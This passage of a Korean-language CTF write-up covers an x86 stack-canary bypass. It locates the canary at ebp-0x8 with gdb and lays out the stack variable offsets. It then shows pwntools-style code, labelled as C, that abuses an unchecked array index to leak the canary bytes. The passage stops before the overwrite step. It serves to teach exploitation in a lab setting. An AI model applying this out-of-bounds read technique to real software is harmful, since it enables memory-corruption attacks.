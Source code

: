 6. 

이제 변수의 주소는 다 찾았기 때문에 마지막으로 canary가 저장된 주소를 찾아봐야한다.   

x64를 공부하며 canary가 `rbp-0x8`에 저장되어 있길래 x86에서는 `ebp-0x4`에 저장되어 있을 것이라고 당연히 생각해서 이 과정을 건너뛰었었는데, 이것 때문에 익스플로잇에 계속 실패하여 시간을 많이 잡아먹었다.

아래의 스크린샷을 보면 `xor`으로 `gs:[0x14]`와 `edx == dword ptr[ebp-0x8]`를 `xor`하여 같으면 `<main+345>`로 jump하여 정상종료되기 때문에 `ebp-0x8`에 canary가 저장되어 있다는 것을 알 수 있다.

<img width="1029" alt="image" src="https://github.com/juhyeongkim527/Dreamhack-Study/assets/138116436/15a4e186-3585-4a04-87ac-02bc172329b3">

만약 canary가 변조되어 `ebp-0x8`에 저장된 주소가 가리키는 값이 다르다면 아래와 같이 `__stack_chk_failt@plt`로 이동하여 프로그램이 비정상 종료가 된다.

<img width="840" alt="image" src="https://github.com/juhyeongkim527/Dreamhack-Study/assets/138116436/ea082ab2-36ae-46a9-acbf-7859184026b0">

<br>

## 변수 주소 정리

gdb를 통해 찾은 각 변수의 주소와 ebp로부터 떨어진 값을 정리해보면 아래와 같다

- `ebp`              : 0xffffd498
- `idx( 4byte)`      : 0xffffd404 : ebp - 148
- `name_len (4byte)` : 0xffffd408 : ebp - 144
- `select (2byte)`   : 0xffffd40e : ebp - 138
- `box (64byte)`     : 0xffffd410 : ebp - 136 
- `name (64byte)`    : 0xffffd450 : ebp - 72
- `canary`                        : ebp - 8

이제 스택프레임을 한번 그려서 정리해보면 아래와 같고, 해당 스택프레임을 보며 익스플로잇에 사용할 payload를 구현해볼 수 있다.

<img width="677" alt="image" src="https://github.com/juhyeongkim527/Dreamhack-Study/assets/138116436/0d225b2f-1119-46ed-a27c-c81ea67d9933">

<br>

## Exploit 설계

1. 

먼저 canary 값 3바이트를(1바이트는 0x00이므로 읽을 필요X) 읽어오기 위해서는,

`select` 값에 `P\n`을 넣어 `box` 변수를 통해 index를 확장하여 canary가 저장된 `box[129]`, `box[130]`,  `box[131]` 값을 읽어와서 canary 변수에 저장하면 된다.    

**여기서 취약점이 발생하는 이유는 box의 크기만큼만 idx를 지정할 수 있는 것이 아니라 box의 크기를 넘어서 idx를 지정할 수 있기 때문이다.**   

해당 코드는 아래와 같다.

```c
canary ='\x00'

p.sendline(b'P')
p.sendline(b'129')
p.recvuntil(b'is : ')
canary += p32(int(p.recvn(2), 16))[:1]  

p.sendline(b'P')
p.sendline(b'130')
p.recvuntil(b'is : ')
canary += p32(int(p.recvn(2), 16))[:1]  

p.sendline(b'P')
p.sendline(b'131')
p.recvuntil(b'is : ')
canary += p32(int(p.recvn(2), 16))[:1]  
```
